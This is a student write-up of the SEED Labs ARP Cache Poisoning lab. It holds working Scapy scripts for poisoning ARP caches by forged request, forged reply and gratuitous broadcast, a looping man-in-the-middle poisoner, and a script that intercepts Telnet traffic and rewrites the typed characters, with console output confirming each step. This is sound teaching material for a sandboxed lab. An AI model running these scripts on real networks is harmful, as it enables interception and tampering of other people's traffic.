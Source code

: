 # ARP Cache Poisoning Attack Lab

## Fei Guo, July 7, 2022

Lab Spec: https://seedsecuritylabs.org/Labs_20.04/Networking/ARP_Attack/

### ARP Cache Poisoning 

Here we try to send a forged ARP request to VICTIM to fool it into updating its ARP entry for TARGET IP and map it to a fake MAC. There are three ways to achieve this.

Method 1 - with ARP Request:

Send a forged request on Attacker Machine:
```python
#!/usr/bin/env python3
from scapy.all import *
FAKE_MAC = 'aa:bb:cc:dd:ee:ff'
TARGET_IP = "10.9.0.6" 
VICTIM_MAC = '02:42:0a:09:00:05' 
VICTIM_IP = "10.9.0.5" 
E = Ether(src=FAKE_MAC, dst=VICTIM_MAC)
A = ARP(psrc=TARGET_IP, hwsrc=FAKE_MAC, pdst=VICTIM_IP)
A.op = 1     # 1 for ARP request; 2 for ARP reply
pkt = E/A
sendp(pkt)
```

Check it on VICTIM:
```bash
root@0dbfcd70fcd9:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   aa:bb:cc:dd:ee:ff   C                     eth0
```

Method 2 - With ARP reply:

```python
#!/usr/bin/env python3
from scapy.all import *
FAKE_MAC = 'aa:bb:cc:dd:ee:ff'
TARGET_IP = "10.9.0.6" 
VICTIM_MAC = '02:42:0a:09:00:05' 
VICTIM_IP = "10.9.0.5" 
E = Ether(src=FAKE_MAC, dst=VICTIM_MAC)
A = ARP(psrc=TARGET_IP, hwsrc=FAKE_MAC, pdst=VICTIM_IP)
A.op = 2     # 1 for ARP request; 2 for ARP reply
pkt = E/A
sendp(pkt)
```
We delete the arp entry for 10.9.0.6 and then send the above reply
```
root@0dbfcd70fcd9:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   aa:bb:cc:dd:ee:ff   C                     eth0
root@0dbfcd70fcd9:/# arp -d 10.9.0.6
<after the spoofed reply>
root@0dbfcd70fcd9:/# arp -n
```
So it doesn't update / add the fake mapping. But if we first add this entry by pinging the target, we do see the fake mac.
```bash
root@0dbfcd70fcd9:/# ping 10.9.0.6
PING 10.9.0.6 (10.9.0.6) 56(84) bytes of data.
64 bytes from 10.9.0.6: icmp_seq=1 ttl=64 time=0.105 ms
^C
--- 10.9.0.6 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.105/0.105/0.105/0.000 ms
root@0dbfcd70fcd9:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   02:42:0a:09:00:06   C                     eth0
root@0dbfcd70fcd9:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   aa:bb:cc:dd:ee:ff   C                     eth0
```


Method 3 - With Gratuitous Message:

```python
#!/usr/bin/env python3
from scapy.all import *
BROADCAST = 'ff:ff:ff:ff:ff:ff'
FAKE_MAC = 'aa:bb:cc:dd:ee:ff'
TARGET_IP = "10.9.0.6" 
E = Ether(src=FAKE_MAC, dst=BROADCAST)
A = ARP(psrc=TARGET_IP, hwsrc=FAKE_MAC, hwdst=BROADCAST, pdst=TARGET_IP)
A.op = 1     # 1 for ARP request; 2 for ARP reply
pkt = E/A
sendp(pkt)
```
And VICTIM happily updates its ARP entry.
```bash
root@0dbfcd70fcd9:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   aa:bb:cc:dd:ee:ff   C                     eth0
```

An interesting side note is, with this fake mac address, we can't ping 10.9.0.6 from 10.9.0.5 for a short while, but it won't take failure for an answer and it will retry. With the broadcast property of the arp request, it will very soon get a correct reply from 10.9.0.6 and update its arp entry to the correct one. 

### Man in the middle Attack on Telnet

First, we fool host A and B to believing that Attacker mac is the mac they want to talk with.
```python
#!/usr/bin/env python3
from scapy.all import *
import time
while True:
    FAKE_MAC = '02:42:0a:09:00:69'
    # To host A
    E = Ether(src=FAKE_MAC, dst='02:42:0a:09:00:05' )
    A = ARP(psrc="10.9.0.6" , hwsrc=FAKE_MAC, pdst="10.9.0.5" )
    A.op = 1     # 1 for ARP request; 2 for ARP reply
    pkt = E/A
    sendp(pkt)
    # To host B
    E = Ether(src=FAKE_MAC, dst="02:42:0a:09:00:06")
    A = ARP(psrc="10.9.0.5" , hwsrc=FAKE_MAC, pdst="10.9.0.6")
    A.op = 1     # 1 for ARP request; 2 for ARP reply
    pkt = E/A
    sendp(pkt)
    time.sleep(5)
```
At this time, if we ping B from host A , we get duplicate echo replies:
```
root@0dbfcd70fcd9:/# ping 10.9.0.6
PING 10.9.0.6 (10.9.0.6) 56(84) bytes of data.
64 bytes from 10.9.0.6: icmp_seq=1 ttl=63 time=0.119 ms
From 10.9.0.105: icmp_seq=2 Redirect Host(New nexthop: 10.9.0.6)
64 bytes from 10.9.0.6: icmp_seq=2 ttl=63 time=0.096 ms
From 10.9.0.105: icmp_seq=3 Redirect Host(New nexthop: 10.9.0.6)
64 bytes from 10.9.0.6: icmp_seq=3 ttl=63 time=0.098 ms
```
This is because Attacker now plays the role of a router. When attacker sees a request with an IP destination not for itself, even though it receives the packet (because it has the right MAC), it will deliver the packet to the next hop (the one with the right IP).

But if we disable forwarding by:
`sysctl net.ipv4.ip_forward=0`

We can only see some intermittent echo replies. This is because the wrong MAC lead to no results, so Ping will initiate BROADCAST arp request and asks "who has "10.9.0.6", which 10.9.0.6 will answer, thus updating the arp entry in 10.9.0.5. This can be confirmed in Wireshark.

Now, to launch the Man-in-the-Middle attack, we poison the ARP entries in A and B, and then telnet from A to B. After this, we disable the 
`sysctl net.ipv4.ip_forward=0` on Attacker machine. Then we run this script:

```python
#!/usr/bin/env python3
from scapy.all import *
import re
IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        # Create a new packet based on the captured one.
        # 1) We need to delete the checksum in the IP & TCP headers,
        #    because our modification will make them invalid.
        #    Scapy will recalculate them if these fields are missing.
        # 2) We also delete the original TCP payload.
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        #################################################################
        # Construct the new payload based on the old payload.
        # Students need to implement this part.
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load  # The original payload data
            # NOTE: we can only replace byte by byte, no adding nor deleting, otherwise invalid tcp packet!
            newdata = bytes([ord("A") if chr(byte).isalpha() else byte for byte in data])
            print("new data", newdata)
            send(newpkt/newdata)
        else:
            send(newpkt)
            ################################################################
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        # Create new packet based on the captured one
        # Do not make any change
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt)

f = 'tcp and not ether src host 02:42:0a:09:00:69' # if it's from Attacker's MAC, don't capture
pkt = sniff(filter=f, prn=spoof_pkt)
```

In this way, A can still talk to B, but the characters the user types on A will be tampered and become all 'A's.


